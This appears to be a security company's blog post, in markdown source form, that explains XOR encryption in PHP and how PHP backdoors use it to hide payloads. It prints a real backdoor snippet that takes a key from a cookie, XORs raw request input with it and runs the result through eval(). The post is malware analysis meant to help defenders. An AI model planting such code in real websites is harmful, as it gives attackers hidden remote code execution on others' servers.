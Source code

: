 ```yaml
---
layout: post
title: "PHP Malware and XOR Encrypted Requests"
date: 2019-09-27 09:00:00 -0700
cover: /assets/images/php-xor/php-xor-cover.png
excerpt: An analysis of the methods that malicious users use to implement XOR encryption to try and hide the data in HTTP requests sent to PHP malware existing on a compromised website or webserver.
authors:
  - name: Luke Leal
    title: Security Engineer, Sucuri
    url: https://twitter.com/rootprivileges
    photo: https://avatars.githubusercontent.com/sucuri-luke
---
```


## About this post

As a security engineer at [Sucuri](https://sucuri.net) (Sucuri was acquired by GoDaddy in Spring 2017), we must use reverse engineering and analytical skills to determine if a suspected code sample is indeed malicious and then after confirmation we need to understand exactly how it is being used by the attacker. In this post we'll explain how the **XOR** operator works in PHP, the multiple ways that **XOR** can be used to hide malicious data, and how you can use the **XOR** operating principles to reverse engineer PHP malware that uses it to hide malicious code.

## How Does The XOR Cipher Operate?

We will mainly focus on the simple [XOR cipher](https://en.wikipedia.org/wiki/XOR_cipher), which itself is an application of the [exclusive disjunction (XOR)](https://en.wikipedia.org/wiki/Exclusive_or) logical operation.

Let’s examine how the **XOR** bitwise operator, ⨁, is used as a cipher additive for encryption/decryption:  

<table style="width: 50%; margin-left: auto; margin-right: auto;">
<tbody>
<tr>
<td style="width: 22.1191%;"><strong>A</strong><sub>plaintext</sub></td>
<td style="width: 17.881%;">⨁</td>
<td style="width: 17%;"><strong>B</strong><sub>key</sub></td>
<td style="width: 8%;">=</td>
<td style="width: 33%;"><strong>C</strong><sub>ciphertext</sub></td>
</tr>
</tbody>
</table>

It is **important** to mention that PHP uses the **^** caret symbol for the **XOR** operator as it does not allow for the ⨁ symbol to be used in its code.

[PHP’s manual](https://secure.php.net/manual/en/language.operators.bitwise.php) provides further information regarding how the XOR operation is performed at the bit level on the operand strings in the PHP code:


>
"If both operands for the [...] ^ operators are strings, then the operation will be performed on the ASCII values of the characters that make up the strings and the result will be a string."
>

PHP malware using **XOR** will often use two **operands**, which are defined variables containing strings (e.g **$a** and **$b**). The strings used by one of the operand variables are the **[plaintext](https://en.wikipedia.org/wiki/Plaintext)** (in this example it is the malicious code) that we wish to encrypt, and the other operand variable string is what is known as a **pre-shared key**. 

It’s also important to know that **XOR** operates as a **[symmetrical](https://en.wikipedia.org/wiki/Symmetric-key_algorithm)** form of encryption - which means that we can encrypt and decrypt using the same key. 

Let us break this down with a simple PHP example:

```
<?php
$a = "test" ; //our plaintext that we want encrypted
$b = "1234" ; //our key to use with plaintext to give us encrypted result
$c = $a ^ $b ; //our XOR bitwise encryption between $a and $b
echo $c ; //result = EW@@
?>
```


Remember that PHP’s **^** (**XOR**) bitwise operator converts each character to their corresponding ASCII value, which can be [checked with an ASCII table](https://simple.wikipedia.org/wiki/ASCII#/media/File:ASCII-Table-wide.svg). 

A visual table of the **XOR** symmetric encryption:

<table style="width: 65%; margin-left: auto; margin-right: auto;" border="1">
<thead>
<tr>
<th align="center"><strong>A</strong><sub>plaintext</sub></th>
<th align="center">⨁</th>
<th align="center"><strong>B</strong><sub>key</sub></th>
<th align="center">ASCII -> decimal</th>
<th align="center"><strong>A</strong><sub>dec value</sub></th>
<th align="center">⨁</th>
<th align="center"><strong>B</strong><sub>dec value</sub></th>
<th align="center"></th>
<th align="center"><strong>C</strong><sub>ciphertext</sub></th>
<th align="center"><strong>C</strong><sub>ASCII char</sub></th>
</tr>
</thead>
<tbody>
<tr>
<td align="center">t</td>
<td align="center">^</td>
<td align="center">1</td>
<td align="center">=</td>
<td align="center">116</td>
<td align="center">^</td>
<td align="center">49</td>
<td align="center">=</td>
<td align="center">69</td>
<td align="center">E</td>
</tr>
<tr>
<td align="center">e</td>
<td align="center">^</td>
<td align="center">2</td>
<td align="center">=</td>
<td align="center">101</td>
<td align="center">^</td>
<td align="center">50</td>
<td align="center">=</td>
<td align="center">87</td>
<td align="center">W</td>
</tr>
<tr>
<td align="center">s</td>
<td align="center">^</td>
<td align="center">3</td>
<td align="center">=</td>
<td align="center">115</td>
<td align="center">^</td>
<td align="center">51</td>
<td align="center">=</td>
<td align="center">64</td>
<td align="center">@</td>
</tr>
<tr>
<td align="center">t</td>
<td align="center">^</td>
<td align="center">4</td>
<td align="center">=</td>
<td align="center">116</td>
<td align="center">^</td>
<td align="center">52</td>
<td align="center">=</td>
<td align="center">64</td>
<td align="center">@</td>
</tr>
</tbody>
</table>
  

After undergoing **XOR** bitwise operation, we are left with the ASCII decimal values of **69 87 64 64** (or **EW@@** after we convert back to ASCII characters. The result is the [ciphertext](https://en.wikipedia.org/wiki/Ciphertext) (**C**), also known as the encrypted text. 

Remember, this is symmetrically encrypted — so the key (**B**) to decrypt it back into plaintext (**A**) is the same key that was used to encrypt it.

<h2>PHP Malware and XOR</h2>

In the case of PHP malware that utilizes XOR encryption for obfuscation, we primarily see it used in three methods:

<h3>The First Method</h3>

**Only the ciphertext (C) in the infected file is stored. The malicious user submits the key (B) in a HTTP request to the PHP file which then decrypts the ciphertext (C) to plain text (A). The now decrypted ciphertext (A) is legible code and can then be executed by PHP.**


<table style="width: 50%; margin-left: auto; margin-right: auto;">  
  <tr>
   <td align="center"><strong>C</strong> <sub>ciphertext in file</sub>
   </td>
   <td align="center">^
   </td>
   <td align="center"><strong>B</strong><sub>key sent by hacker</sub>
   </td>
   <td align="center">=
   </td>
   <td align="center"><strong>A</strong><sub>plaintext PHP code</sub>
   </td>
   </tr>
</table>


The plaintext (**A**) string is malicious code that attackers then encrypt on their end by using **XOR** with a key (**B**) string, The result ends up being the ciphertext (**C**), which is unreadable as PHP code. 

This ciphertext (**C**) is then added to a compromised websites’ file(s), along with some PHP code that uses some user-provided data (e.g via <code>$_POST</code>). This allows the hacker to send the value of the key and use the infected PHP file to decrypt the ciphertext (**C**) back to plaintext (**A**) (their malicious PHP code), then execute it using something like the <strong><code>eval()</code></strong> function.

Users that open the infected PHP file will only see the ciphertext (**C**); as they are missing the (**B**) key, they therefore cannot easily decrypt the encrypted content (**C**). This is what the hacker wants, as it keeps their malicious PHP code unreadable until they submit a request containing the necessary key (**B**) string.

One problem is that, depending on the amount of encrypted malicious PHP code, the ciphertext (**C**) in the infected file can be large and attract suspicion when viewed in a file editor.

<h3>The Second Method</h3>

**Only the key (B) in the infected file is stored. The hacker then provides the ciphertext (C) in their request and it is XOR’ed with the existing key value in the file to form our plaintext (A) — which is then executed.**


<table style="width: 50%; margin-left: auto; margin-right: auto;">  
<tr>
   <td align="center"><strong>C</strong><sub>ciphertext sent by hacker</sub>
   </td>
   <td align="center"><strong>^ </strong>
   </td>
   <td align="center"><strong>B</strong><sub>key in file code</sub>
   </td>
   <td align="center"><strong>=</strong>
   </td>
   <td align="center"><strong>A</strong><sub>plaintext PHP code</sub>
   </td>
</tr>
</table>



For this second method, let’s take a look at a recent backdoor that was found in a file named “**01f008ec.php**” within the root directory of an infected website.  

PHP file formatted and segmented for clarity:

```
$auth = "21a27be0cd332f0e8430e24da7158a96";
if (isset($_COOKIE[$auth]))
{
  $key = str_rot13($_COOKIE[$auth]);
```


The backdoor starts with a <strong><code>isset</code></strong> condition that must be satisfied in the request sent to the file — in this case, the <strong>[HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)</strong> containing the key value. This cookie value, which must match the hardcoded value of the defined <strong><code>$auth</code> </strong>variable,<strong> </strong> is then encoded using <strong><code>str_rot13</code></strong> and used to define the <strong><code>$key</code></strong> (**B**) variable.


```
  $res = "";
  foreach (str_split(@file_get_contents('php://input') , strlen($key)) as $part)
  {
      $res .= $part ^ $key;
  }
  eval($res);
```


Before the **XOR** operation, the file will use <strong><code>file_get_contents('php://input')</code></strong> to read raw data through **GET**/**POST** requests (XOR encoding may add special characters that can be broken if not transmitted raw) to the malicious file.  It’s then split into an array using <strong><code>str_split</code></strong> and defined with the variable <strong><code>$part</code></strong> within a <strong><code>foreach</code></strong> loop. 

We can see the malicious file’s code eventually evaluates code through a separate variable, <strong><code>eval($res)</code></strong> — this lets us know that the variable <strong><code>$res</code></strong> should contain the plaintext PHP code in order to be successfully executed. 


```
  {
      $res .= $part ^ $key;
  }
  eval($res);
```


This is a great example of the properties of symmetrical cryptography. The hacker uses the key (**B**) value to create the unreadable ciphertext (**C**) on their end, then the ciphertext (**C**) is submitted to the infected file via GET/POST request where it will be **XOR**’ed with the key (**B**) once more. The result is a plaintext (**A**) value that contains the malicious PHP code to be executed by the <strong><code>eval()</code></strong> function. 

It’s important to note that the plaintext (**A**) gets evaluated, so you won’t ever see it — nor the ciphertext (**C**) being sent to the infected file (unless you are logging HTTP requests or otherwise inspecting HTTP packets). 

One advantage with using this method is that even if HTTP requests are being inspected (e.g. by a firewall), website owners wouldn’t see the plaintext PHP, which can aid in evading detection. Another advantage is that the infection in the file can be much smaller (~235 characters on one line) than the previous method, which can have thousands of characters — this can also help prevent administrators from identifying malicious changes to files. 

<h3>The Third Method</h3>

The third method we see shares these same advantages, along with one more:

**The infected file does NOT contain any hardcoded ciphertext (C) or a key (B): Instead, the hacker provides the ciphertext and key as two strings in a crafted HTTP request to the infected file. These are then XOR'ed to produce the cleartext (A), which can then be executed.**

This third method doesn’t have the key value (**B**) hardcoded into the infected file’s coding like our previous example, therefore requiring interception of the HTTP request so that the key value (**B**) can be used to decrypt/encrypt the ciphertext (**C**).

<h2>Conclusion </h2>

In conclusion, **XOR** bitwise operations in PHP malware can help hackers evade certain security controls, but their symmetric cryptography means that anyone that knows the pre-shared secret key can decrypt/encrypt using it. 

Users who believe that their site may be infected with a PHP backdoor can refer to our [hacked website guides](https://sucuri.net/guides/) for cleanup instructions, or [reach out to our remediation team](https://sucuri.net/website-malware-removal/) for assistance — we’re always happy to lend a hand. 

If you would like to receive email notifications for technical website security posts, subscribe for our [blog feed](https://info.sucuri.net/subscribe-to-security).  
